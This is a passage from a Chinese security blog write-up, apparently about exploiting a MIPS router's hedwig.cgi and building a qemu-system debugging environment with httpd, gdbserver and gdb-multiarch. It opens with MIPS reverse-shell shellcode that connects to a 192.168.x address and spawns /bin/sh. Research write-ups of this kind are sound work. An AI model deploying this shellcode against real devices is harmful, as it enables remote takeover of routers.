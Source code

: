 ```
payload = "x26x40x08x01"*4
payload += "xffxffx04x28xa6x0fx02x24x0cx09x09x01x11x11x04x28"
payload += "xa6x0fx02x24x0cx09x09x01xfdxffx0cx24x27x20x80x01"
payload += "xa6x0fx02x24x0cx09x09x01xfdxffx0cx24x27x20x80x01"
payload += "x27x28x80x01xffxffx06x28x57x10x02x24x0cx09x09x01"
payload += "xffxffx44x30xc9x0fx02x24x0cx09x09x01xc9x0fx02x24"
payload += "x0cx09x09x01x79x69x05x3cx01xffxa5x34x01x01xa5x20"
#payload += "xf8xffxa5xafx01xb1x05x3cxc0xa8xa5x34xfcxffxa5xaf"
# 192.168.1.177
payload += "xf8xffxa5xafx03x84x05x3cxc0xa8xa5x34xfcxffxa5xaf"
# 192.168.3.132
#payload += "xf8xffxa5xafx64xfex05x3cxc0xa8xa5x34xfcxffxa5xaf"
# 192.168.100.254
payload += "xf8xffxa5x23xefxffx0cx24x27x30x80x01x4ax10x02x24"
payload += "x0cx09x09x01x62x69x08x3cx2fx2fx08x35xecxffxa8xaf"
payload += "x73x68x08x3cx6ex2fx08x35xf0xffxa8xafxffxffx07x28"
payload += "xf4xffxa7xafxfcxffxa7xafxecxffxa4x23xecxffxa8x23"
payload += "xf8xffxa8xafxf8xffxa5x23xecxffxbdx27xffxffx06x28"
payload += "xabx0fx02x24x0cx09x09x01"
```

结果出现下面的情景：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0104b1f98cfc2cd657.png)

出现这个的原因，也不是很理解，还是请各位大佬帮忙解答一下。后面我就先归因于user mode模式下的问题。接下来，就要验证qemu-system下可不可以（如此繁琐的验证，就是因为没有真机啊，哭）

##### <a class="reference-link" name="qemu-system%E6%A8%A1%E5%BC%8F%E6%A8%A1%E6%8B%9F"></a>qemu-system模式模拟

首先是环境复原，这一步真的是耗费了好长时间啊，此前对于http server的理解不是很够，所以找了很多的文章来看，很感谢大佬的[文章](https://kirin-say.top/2019/02/23/Building-MIPS-Environment-for-Router-PWN/)，帮我解答了这个疑惑，现在在这边详细讲解一下，cgi文件处理数据的流程基本如下：

```
1.主Web程序监听端口-&gt;传送HTTP数据包-&gt;HTTP中headers等数据通过环境变量的方式传给cgi处理程序-&gt;cgi程序通过getenv获取数据并处理返回给主程序-&gt;向客户端返回响应数据
2.post的数据，可以通过流的方式传入，也就是类似于echo "uid=aaa"| /htdocs/web/hedwig.cgi
```

之前一直在想一个问题，这些环境变量啊，或者post的数据啊，能不能直接通过外部数据请求的方式，传入到要调试的程序中？好像是不行的，听了一个大佬看法，因为httpd开启服务的时候，如果外部的请求为这些cgi的话，那么就会新fork一个进程，听到这的话，我就明白已经用gdbserver加载的程序和外部请求加载的cgi不是一个，所以也就不能用这种方式了。所以在mips虚拟机上调试的流程如下：

```
1.部分还原httpd服务，使其能正常访问
2.设置环境变量，提前设置好cgibin的参数请求
3.gdbserver加载hedwig.cgi
4.gdb-multiarch在外面进行连接调试
```

下面我将从上面四个部分分别进行讲解，因为大佬文章中的固件是1.02，和1.00还有很多不同，所以将根据自身情况进行调整。<br>
一.还原httpd服务<br>
我们首先先找一下有哪些是和httpd服务有关的内容，因为httpd开启的时候，会有一个配置文件。
